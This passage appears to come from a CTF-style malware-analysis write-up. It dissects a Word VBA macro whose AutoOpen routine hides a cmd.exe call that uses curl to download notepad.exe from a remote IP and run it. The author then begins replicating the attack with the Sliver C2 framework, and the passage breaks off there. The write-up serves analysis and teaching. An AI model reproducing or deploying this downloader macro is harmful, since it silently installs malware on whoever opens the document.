 ![image](https://user-images.githubusercontent.com/58165365/179977172-d84ff4d9-2c1c-430e-91c0-d69bbe5a958f.png)

Lets actually dive into the juicy part of the macro code above:

```vba
Attribute VB_Name = "NewMacros"
Sub AutoOpen()
    notepad
End Sub
Sub notepad()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("Subject").Value
    strArgument = "/c curl -s http://103.255.5.117:443/notepad.exe --output %temp%\notepad.exe && %temp%\notepad.exe"
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

Shell has 3 input parameters:

- A required pathname for the program to call (strProgramName) . In this case the program to call is referenced at Subject property/value. If we look at Subject property under Metadata, we see the program called is `cmd.exe`
  ![image](https://user-images.githubusercontent.com/58165365/180003751-5312d2a5-cfc4-401f-acb9-3d0483191141.png)

- A required argument(strArgument). This is basically a curl command running in silent mode and fetching an exectutable called notepad.exe from `http://103.255.5.117:443` and finally dumping it to the `temp` directory.
- Windowstyle value controlling the style of the window where the program will run.(vbHideFocus) . In this case the window style is set to `vbHideFocus`. Other window styles include:

| Constant           | Value | Description                                                                                                              |
| ------------------ | ----- | ------------------------------------------------------------------------------------------------------------------------ |
| vbHide             | 0     | Window is hidden and focus is passed to the hidden window. The vbHide constant is not applicable on Macintosh platforms. |
| vbNormalFocus      | 1     | Window has focus and is restored to its original size and position.                                                      |
| vbMinimizedFocus   | 2     | Window is displayed as an icon with focus.                                                                               |
| vbMaximizedFocus   | 3     | Window is maximized with focus.                                                                                          |
| vbNormalNoFocus    | 4     | Window is restored to its most recent size and position. The currently active window remains active.                     |
| vbMinimizedNoFocus | 6     | Window is displayed as an icon. The currently active window remains active.                                              |

Now for this challenge, i seeked helped from my buddy [@Amarjit_Labu](https://twitter.com/Amarjit_Labu) and borrowed some tips from [TJ Null's Blog - Macro Weaponization](https://www.offensive-security.com/offsec/macro-weaponization/). I wanted to replicate and test this logic of this macro code and i can just describe what it does in a nutshell.

- On Kali, i installed Sliver C2 framework
  `sudo apt install sliver`
- On a windows machine(Target), create a new document and create a macro as follows:
